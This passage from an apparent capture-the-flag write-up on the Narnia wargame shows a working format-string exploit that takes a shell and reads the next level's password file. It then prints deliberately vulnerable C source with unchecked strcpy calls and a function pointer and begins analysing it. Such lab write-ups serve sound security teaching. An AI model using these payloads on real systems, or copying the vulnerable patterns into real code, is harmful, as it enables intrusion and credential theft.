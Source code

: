 We're *28* over the target, so let's reduce the padding

{% highlight console %}
narnia5@melinda:/narnia$ ./narnia5 $(python -c "print '\xcc\xd6\xff\xff'+'%x'*3 + '%472d' + '%n'")
Change i's value from 1 -> 500. GOOD
$ whoami
narnia6
$ cat /etc/narnia_pass/narnia6
[password]
{% endhighlight %}

## Level 06 ##

{% highlight c linenos %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

extern char **environ;

// tired of fixing values...
// - morla
unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}

int main(int argc, char *argv[]){
	char b1[8], b2[8];
	int  (*fp)(char *)=(int(*)(char *))&puts, i;

	if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

	/* clear environ */
	for(i=0; environ[i] != NULL; i++)
		memset(environ[i], '\0', strlen(environ[i]));
	/* clear argz    */
	for(i=3; argv[i] != NULL; i++)
		memset(argv[i], '\0', strlen(argv[i]));

	strcpy(b1,argv[1]);
	strcpy(b2,argv[2]);
	//if(((unsigned long)fp & 0xff000000) == 0xff000000)
	if(((unsigned long)fp & 0xff000000) == get_sp())
		exit(-1);
	fp(b1);

	exit(1);
}
{% endhighlight %}

In this rather complicated looking listing we notice a few things:

* line 17 is a function pointer to `puts`
* line 33 calls the function `fp` points to
* line 31 prevents `fp` from pointing to anything in our frame
